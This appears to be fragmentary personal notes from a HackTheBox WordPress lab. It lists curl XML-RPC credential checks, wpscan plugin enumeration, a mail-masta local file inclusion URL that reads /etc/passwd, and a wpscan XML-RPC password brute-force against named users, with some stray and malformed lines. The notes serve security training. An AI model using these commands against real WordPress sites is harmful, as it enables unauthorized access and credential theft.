
cURL - Post Request

https://medium.com/@harry.hphu/hackthebox-hacking-wordpress-skill-assessment-758e0e81648b

```bash

Y3rb1t4@htb[/htb]$ 
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://83.136.252.214:46951xmlrpc.php


```

Invalid Credentials - 403 Forbidden

```bash

Y3rb1t4@htb[/htb]$ curl -X POST -d "<methodCall><methodName>system.listMethods</methodName><params><param><value>admin</value></param><param><value>asdasd</value></param></params></methodCall>" http://83.136.252.214:46951/xmlrpc.php

```

```bash

exegol-yerba /workspace # wpscan --url $TARGET  --enumerate vp --api-token $TOKEN

```

http://94.237.48.205:32093/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

Wordpress User Bruteforce 

wpscan -XMLRPC

```bash
Y3rb1t4@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url $TARGET

```
dasdasaa



